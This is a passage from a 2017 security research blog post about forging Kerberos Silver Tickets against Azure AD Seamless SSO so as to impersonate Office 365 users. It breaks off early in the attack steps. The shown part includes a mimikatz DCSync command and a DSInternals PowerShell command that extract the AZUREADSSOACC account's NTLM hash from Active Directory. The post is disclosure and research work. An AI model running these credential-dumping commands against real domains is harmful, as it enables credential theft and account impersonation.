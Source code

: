```yaml
---
id: 9573
title: Impersonating Office 365 Users With Mimikatz
date: 2017-12-02T10:46:50+00:00
author: Michael Grafnetter
layout: revision
guid: https://www.dsinternals.com/8561-revision-v1/
permalink: /8561-revision-v1/
---
```

### Introduction

<p style="text-align: justify;">
  Last month, Microsoft has introduced a&nbsp;new feature of&nbsp;Azure AD Connect called <a href="https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso">Single Sign On</a>. It allows companies to&nbsp;configure SSO between AD and&nbsp;AAD without the&nbsp;need to&nbsp;deploy <a href="https://technet.microsoft.com/en-us/library/hh831502(v=ws.11).aspx">ADFS</a>, which&nbsp;makes it an ideal solution for&nbsp;SMEs. Here is&nbsp;a high-level diagram of&nbsp;this functionality:
</p>

<p style="text-align: justify;">
  <a href="https://docs.microsoft.com/en-us/azure/active-directory/connect/media/active-directory-aadconnect-sso/sso2.png"><img class="aligncenter" src="https://docs.microsoft.com/en-us/azure/active-directory/connect/media/active-directory-aadconnect-sso/sso2.png" width="500" /></a>As&nbsp;we can see from&nbsp;the&nbsp;diagram above, Azure AD exposes a&nbsp;<a href="https://autologon.microsoftazuread-sso.com">publicly available endpoint</a> that&nbsp;accepts Kerberos tickets and&nbsp;translates them into SAML and&nbsp;JWT tokens, which&nbsp;are understood and&nbsp;trusted by&nbsp;other cloud services like Office 365, Azure or&nbsp;Salesforce. And&nbsp;wherever you have Kerberos-based authentication, it can be attacked using <a href="https://adsecurity.org/?p=2011">Silver Tickets</a>.
</p>

<p style="text-align: justify;">
  In&nbsp;usual circumstances this attack can only be performed from&nbsp;the&nbsp;intranet. But&nbsp;what really caught my attention is&nbsp;the fact that&nbsp;with this new SSO feature, <strong>Silver Tickets could be used from&nbsp;the&nbsp;entire internet</strong>. Let&#8217;s give it a&nbsp;try then!
</p>

### The&nbsp;Nasty Stuff

To&nbsp;test this technique, we need to&nbsp;retrieve some information from&nbsp;Active Directory first:

<li style="text-align: left;">
  NTLM password hash of&nbsp;the <a href="https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#how-single-sign-on-works">AZUREADSSOACC</a> account, e.g.&nbsp;<em>f9969e088b2c13d93833d0ce436c76dd</em>. This value can be retrieved from&nbsp;AD using <a href="https://github.com/gentilkiwi/mimikatz">mimikatz</a>: <pre class="nums:false lang:sh decode:true">mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit</pre>
  
  <p>
    My own <a href="https://github.com/MichaelGrafnetter/DSInternals">DSInternals PowerShell Module</a> could do&nbsp;the same job:
  </p>
  
  <pre class="nums:false lang:ps decode:true">Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso `
-Server lon-dc1.contoso.local</pre>
  